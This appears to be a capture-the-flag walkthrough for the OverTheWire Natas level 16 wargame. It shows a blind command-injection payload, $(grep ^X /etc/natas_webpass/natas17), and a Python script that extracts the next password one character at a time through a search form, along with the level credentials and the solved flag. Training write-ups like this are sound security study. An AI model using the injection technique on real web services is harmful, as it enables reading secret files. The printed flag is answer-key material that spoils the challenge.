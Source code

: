 # Natas Level 16

Access data:

    username: natas16
    password: TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V

Connect to the service using basic HTTP auth by replacing the credentials in the link:
    
    http://*USERNAME*:*FLAG*@*USERNAME*.natas.labs.overthewire.org/

We had similar challenges earlier, but now there is filtering for special characters that make it harder to execute arbitrary commands. However, they are using a blacklist, which is rarely a good idea. For example, _$_ and _()_ are still allowed which makes [command substitution](https://www.gnu.org/software/bash/manual/html_node/Command-Substitution.html) possible.

    grep -i \"$key\" dictionary.txt

We control the unfiltered $key input.

It can be exploited performing another blind injection attack. We can use another (inner) grep command with a regular expression to query for the password within _/etc/natas_webpass/natas17_ char by char if we combine it with command substitution.

Example:

    grep -i $(grep ^a /etc/natas_webpass/natas17) dictionary.txt


 We can differentiate two cases:

1. If our guess for the current char was correct (pw begins with _a_), the password is returned. The outer grep becomes this:

        grep -i "*PASSWORD*" dictionary.txt

So it will search for the password within dictionary.txt (which will return nothing)

2. Our guess was incorrect. Outer grep becomes this:

        grep -i "" dictionary.txt

This will dump out the whole dictionary.

A script like the following can exploit this leakage of sensitive information and disclose the flag.

```python
    import requests, string
    username = "natas16"
    password = "TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V"
    
    possibleCharacters = list(string.ascii_letters + string.digits) #possible flag characters are letters and digits.
    resultFlag = "" 
    characterCounter = 0
    while(len(resultFlag) < 32):

        
        current_challenge = resultFlag + possibleCharacters[characterCounter]

        #Idea for needle: If we are right with our current guess (pw begins with ^current_challenge), pw is returned. This means the outer grep will search for the pw in the dictionary and find nothing (empty response). If we are wrong, outer grep will search for "" in dictionary, dumping it out completely.
        needle = f"$(grep ^{current_challenge} /etc/natas_webpass/natas17)" 
        
        print("Testing: " + current_challenge)
        url = f"http://{username}:{password}@{username}.natas.labs.overthewire.org/?needle={needle}&submit=Search"
        resp = requests.get(url)
        #print(resp.text)
        if("Input contains an illegal character!" in resp.text):
            print("Illegal character: " + current_challenge)
            break
        if("<pre>" in resp.text):
            matches = resp.text.split("<pre>")[1]
            matches = matches.split("</pre>")[0].strip()
            
            if(not matches): #If there was NO output, this means our guess was correct because the outer grep searches for the pw in dictionary.txt and finds nothing
                print("match!")
                resultFlag = current_challenge
                characterCounter = 0
            else: #If there was output, our guess was wrong, the outer grep just dumps out the dictionary.txt
                characterCounter +=1 
                

    print("Flag: " + resultFlag)
```

<details>
  <summary>Solution</summary>
  Flag: XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd
</details>